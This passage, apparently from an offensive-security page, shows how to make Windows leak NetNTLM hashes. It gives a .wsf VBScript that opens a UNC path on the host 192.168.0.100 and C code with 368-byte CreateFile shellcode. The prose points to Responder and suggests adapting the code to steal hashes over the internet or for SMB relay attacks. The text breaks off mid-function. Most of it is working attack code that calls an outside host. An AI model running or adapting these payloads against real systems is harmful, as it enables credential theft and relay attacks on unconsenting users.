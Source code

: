 ## Windows Script Files

Save this as something.wsf.

```markup
<package>
  <job id="boom">
    <script language="VBScript">
       Set fso = CreateObject("Scripting.FileSystemObject")
       Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
    </script>
   </job>
</package>
```

## Shellcode

Here’s a small shellcode I made. This shellcode uses CreateFile and tries to read a non-existing network path. You can use tools such as Responder to capture NetNTLM hashes. The shellcode can be modified to steal hashes over the internet. SMBRelay attacks can also be performed.

```cpp
/*
    Title: CreateFile Shellcode
    Author: Osanda Malith Jayathissa (@OsandaMalith)
    Website: https://osandamalith.com
    Size: 368 Bytes
*/
# include <stdlib.h>
# include <stdio.h>
# include <string.h>
# include <windows.h>

int main() {

  char *shellcode = 
  "\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x4c\x03\x02\x02\x81\xf1\x02\x02"
  "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
  "\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x29\x01\x05\x05"
  "\xb9\x02\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x56\xb9\x8d\x10"
  "\xb7\xf8\xe8\x5f\x05\x05\x05\x68\x31\x01\x05\x05\xff\xd0\xb9\xe0"
  "\x53\x31\x4b\xe8\x4e\x05\x05\x05\xb9\xac\xd5\xaa\x88\x8b\xf0\xe8"
  "\x42\x05\x05\x05\x6a\x05\x68\x80\x05\x05\x05\x6a\x03\x6a\x05\x6a"
  "\x01\x68\x05\x05\x05\x80\x68\x3e\x01\x05\x05\xff\xd0\x6a\x05\xff"
  "\xd6\x33\xc0\x5e\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c\x61\x0f\xbe"
  "\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0\x75\xea\x8b"
  "\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53\x56\x57\x89"
  "\x4d\xf4\x64\xa1\x30\x05\x05\x05\x89\x45\xfc\x8b\x45\xfc\x8b\x40"
  "\x0c\x8b\x40\x14\x89\x45\xec\x8b\xf8\x8b\xcf\xe8\xd2\xff\xff\xff"
  "\x8b\x70\x18\x8b\x3f\x85\xf6\x74\x4f\x8b\x46\x3c\x8b\x5c\x30\x78"
  "\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff\xff\xff\x8b"
  "\x4c\x33\x20\x89\x45\xf8\x33\xc0\x03\xce\x89\x4d\xf0\x89\x45\xfc"
  "\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75\xff\xff\xff"
  "\x03\x45\xf8\x39\x45\xf4\x74\x1c\x8b\x45\xfc\x8b\x4d\xf0\x40\x89"
  "\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c\x33\xc0\x5f"
  "\x5e\x5b\xc9\xc3\x8b\x4d\xfc\x8b\x44\x33\x24\x8d\x04\x48\x0f\xb7"
  "\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04\x30\x03\xc6\xeb\xdf"
  "\x21\x05\x05\x05\x50\x05\x05\x05\x6b\x65\x72\x6e\x65\x6c\x33\x32"
  "\x2e\x64\x6c\x6c\x05\x2f\x2f\x65\x72\x72\x6f\x72\x2f\x61\x61\x05";

  DWORD oldProtect;

    wprintf(L"Length : %d bytes\n@OsandaMalith", strlen(shellcode));
    BOOL ret = VirtualProtect (shellcode, strlen(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);
```